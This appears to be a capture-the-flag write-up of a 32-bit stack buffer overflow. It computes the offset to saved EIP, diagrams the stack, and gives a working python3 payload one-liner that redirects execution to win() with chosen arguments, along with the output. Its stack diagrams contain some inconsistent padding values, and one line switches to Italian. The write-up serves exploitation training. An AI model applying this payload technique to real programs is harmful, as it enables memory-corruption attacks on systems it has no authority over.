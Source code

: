 ```bash
 8049371:       c3                      ret    
```
From the `8049360` instruction, it is clear that `buf` is `0x6c (108)10` bytes away from `saved EBP` on the stack.

So, the payload to be constructed will be as follows:
```text
    [         ...         ]   Higher Address      
    [      saved EIP      ]        
    [      saved EBP      ] 
    ----------------------- <= EBP 
    [         ...         ]        
    [         ...         ]     
    [         buf         ] <= EBP-0x6c
    [         ...         ]     
    ----------------------- <= ESP 
    [         ...         ]   Lower Address

    payload = padding + win() + dummy + arg1 + arg2

    padding = "A"*0xc + "B"*0x4 

    [         ...         ]   Higher Address
    [        arg2         ]        
    [        arg1         ]        
    [        dummy        ]        
    [        win()        ]        
    [        BBBB         ] <= EBP-0x6c
    ----------------------- <= EBP 
    [        AAAA         ] 
    [        AAAA         ] 
    [        AAAA         ] <= EBP-0x6c
    [         ...         ]     
    ----------------------- <= ESP 
    [         ...         ]   Lower Address
```

The `dummy` matches the `saved EIP` for the stack frame of the `win` function.

Abbiamo tutto il necessario per costruire il payload dalle informazioni catturate fin'ora:
```python
# Little‑endian representation
win = 0x08049296 = b'\x96\x92\x04\x08'
arg1 = 0xCAFEF00D = b'\x0d\xf0\xfe\xca'
arg2 = 0xF00DF00D = b'\x0d\xf0\x0d\xf0'
```

```bash
$ echo "Hello World! I win." > flag.txt     # define a flag.txt to perform local test.

# Resume:
# padding                   + 0x6c
# EBP                       + 0x4
# win() 0x08049296          + 0x4
# fake return address       + 0x4
# params_1  0xcafef00d      + 0x4
# params_2  0xf00df00d      + 0x4
# total payload             = 128 bytes

$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*0x6c+b"B"*0x4+b"\x96\x92\x04\x08"+b"\x90"*0x4+b"\x0d\xf0\xfe\xca"+b"\x0d\xf0\x0d\xf0")' | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Hello World! I win.
Segmentation fault (core dumped)
```